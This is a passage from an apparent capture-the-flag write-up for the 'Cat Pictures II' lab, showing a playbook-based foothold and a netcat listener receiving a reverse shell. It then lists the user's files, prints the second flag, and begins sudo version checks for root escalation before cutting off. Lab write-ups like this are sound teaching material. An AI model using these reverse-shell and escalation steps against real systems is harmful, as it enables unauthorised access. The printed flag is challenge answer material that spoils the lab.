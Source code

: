       - debug: var=username_on_the_host
  
      - name: Test
        shell: echo hi
  ```
  
- Start a listener and run Ansible Playbook option and you will get a shell.

  ```
  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.226.74] 50450
  bismuth@catpictures-ii:~$ whoami
  whoami
  bismuth
  bismuth@catpictures-ii:~$ id
  id
  uid=1000(bismuth) gid=1000(bismuth) groups=1000(bismuth),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare)
  ```

---

## 🧍 User Privilege Escalation

- Second flag is already there, moving to root.

  ```
  bismuth@catpictures-ii:~$ ls -al
  total 56
  drwxr-xr-x 8 bismuth bismuth 4096 Mar 20  2023 .
  drwxr-xr-x 3 root    root    4096 Nov  7  2022 ..
  drwxr-xr-x 3 bismuth bismuth 4096 Nov  7  2022 .ansible
  lrwxrwxrwx 1 bismuth bismuth    9 Nov  7  2022 .bash_history -> /dev/null
  -rw-r--r-- 1 bismuth bismuth  220 Nov  7  2022 .bash_logout
  -rw-r--r-- 1 bismuth bismuth 3771 Nov  7  2022 .bashrc
  drwx------ 2 bismuth bismuth 4096 Nov  7  2022 .cache
  drwxr-x--- 3 bismuth bismuth 4096 Nov  7  2022 .config
  -rw-rw-r-- 1 bismuth bismuth   33 Mar 20  2023 flag2.txt
  drwx------ 3 bismuth bismuth 4096 Nov  7  2022 .gnupg
  -rw------- 1 bismuth bismuth   43 Nov  7  2022 .lesshst
  drwxrwxr-x 2 bismuth bismuth 4096 Nov  7  2022 .nano
  -rw-r--r-- 1 bismuth bismuth  655 Nov  7  2022 .profile
  drwx------ 2 bismuth bismuth 4096 Nov  7  2022 .ssh
  -rw-r--r-- 1 bismuth bismuth    0 Nov  7  2022 .sudo_as_admin_successful
  -rw-rw-r-- 1 bismuth bismuth  182 Nov  7  2022 .wget-hsts
  
  bismuth@catpictures-ii:~$ cat flag2.txt 
  5e2cafbbf180351702651c09cd797920
  ```

---

## 👑 Root Privilege Escalation

- In order to get to root, we will exploit sudo.

  ```
  bismuth@catpictures-ii:~$ sudo --version
  Sudo version 1.8.21p2
  Sudoers policy plugin version 1.8.21p2
  Sudoers file grammar version 46
  Sudoers I/O plugin version 1.8.21p2
  ```
  
  ```